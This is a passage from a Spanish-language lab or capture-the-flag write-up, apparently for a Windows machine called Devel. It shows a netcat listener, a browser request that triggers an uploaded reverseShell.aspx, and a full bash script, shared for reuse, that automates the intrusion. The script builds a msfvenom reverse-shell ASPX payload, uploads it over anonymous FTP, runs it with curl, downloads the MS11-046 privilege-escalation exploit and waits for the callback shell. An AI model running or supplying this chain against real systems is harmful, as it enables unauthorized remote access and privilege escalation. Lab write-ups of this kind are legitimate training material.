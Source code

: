 Creamos un listener por el puerto que elegimos.
  
```bash
rlwrap nc -lvnp 4564
```

En el navegador vamos a la ruta `http://10.10.10.5/reverseShell.aspx` y logramos tener acceso por otra vía a la máquina víctima.

<p style="text-align: center;">
<img src="/assets/images/devel/07-page5.png">  
</p> 

## SCRIPT DE INTRUSION PWNTRUTION.SH

Comparto el script que realicé para automatizar la intrusión de esta máquina.

```bash
##!/bin/bash
#Author: Bast1ant1c

# $1 = IP local
# $2 = Puerto
# $3 = ReverseShell
# $4 = IP victima
# Cambiar USER y PASS si es necesario

if [ -z "$1" ]; then
	echo '''
[*] How to use
[+] ./pwntrution.sh <IP_Local> <Port> <RevShell_Name> <IP_Victim>'''
else

echo "[*] Generando payload"
msfvenom -p windows/shell_reverse_tcp LHOST=$1 LPORT=$2 -f aspx -o $3.aspx 2>/dev/null

echo "[*] Carga de payload"
ftp -n $4 << EOF
quote USER anonymous
quote PASS 
put $3.aspx
quit
EOF

echo "[*] Ejecución de payload"
curl -s http://$4/$3.aspx

echo "[*] Descargando exploit ms11-046"
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe 2>/dev/null

echo "[*] Obteniendo acceso"
rlwrap nc -lvnp $2 2>/dev/null
fi
```
